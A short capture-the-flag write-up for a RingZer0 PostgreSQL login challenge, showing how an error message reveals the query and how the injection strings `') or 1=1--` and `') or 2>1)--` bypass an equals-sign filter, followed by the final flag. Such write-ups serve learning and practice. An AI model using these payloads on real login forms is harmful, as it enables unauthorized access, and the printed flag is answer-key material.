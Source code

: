 # Po po po po postgresql

## Challenge Details 

- **CTF:** RingZer0
- **Category:** SQL Injection
- **Points:** 2

## Provided Materials

- Login page

## Solution

We can cause the error by submitting `'` as username:

![error](./error.jpg)

We can see now the full query:

```
...FROM users WHERE (username = ('our_username') AND ...
```

We can try now with `') or 1=1--` *(`--` is comments in `postgresql`)*:

![illegal](./illegal.jpg)

We can then enter all the symbols one by one and understand, that only `=` is illegal. So we can try with `') or 2>1)--`:

![flag](./flag.jpg)


## Final Flag

`FLAG-mdeq68jNN88xLB1o2m8V33Ld`

*Created by [bu19akov](https://github.com/bu19akov)*